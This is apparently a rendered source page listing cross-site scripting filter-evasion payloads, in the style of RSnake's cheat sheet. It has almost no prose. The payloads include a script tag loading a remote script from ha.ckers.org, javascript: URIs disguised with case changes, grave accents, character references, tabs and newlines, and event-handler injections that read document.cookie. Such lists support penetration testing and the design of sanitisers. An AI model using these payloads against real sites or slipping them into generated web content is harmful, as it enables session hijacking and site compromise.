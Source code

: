 

##XSS Locator 2
'';!--"<XSS>=&{()}


```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>```

```<IMG SRC="javascript:alert('XSS');">```

```<IMG SRC=JaVaScRiPt:alert('XSS')>```

##Grave Accent Obfuscation
```<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>```

##Malformed A Tags
##(not actually malformed)
```<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>```

##Malformed IMG Tags
```<IMG """><SCRIPT>alert("XSS")</SCRIPT>">```

##fromCharCode
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

##Default SRC tag to get past filters that check SRC domain
```<IMG SRC=##onmouseover="alert('xxs')">```

##Default SRC tag by leaving it empty
##nickg; Unable to replicate in FF,Safari,Chrome 2014-01-10
```<IMG SRC= onmouseover="alert('xxs')">```

##Default SRC tag by leaving it out entirely
```<IMG onmouseover="alert('xxs')">```

##Decimal HTML character references
##obsolete?
```<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC="/" onerror=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>```

##Decimal HTML character references without trailing semicolons
##obsolete
```<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC="/x" onerror=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>```

##Hexadecimal HTML character references without trailing semicolons
##obsolete form
 ```<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="/" onerror=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>```

##Embedded tab
##obsolete form
```<IMG SRC="jav   ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav      ascript:alert('XSS');">```

##Embedded escaped tab
##obsolete form
```<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="/" onerror="jav&#x09;ascript:alert('XSS');">```

##Embedded newline to break up XSS
##obsolete form
```<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
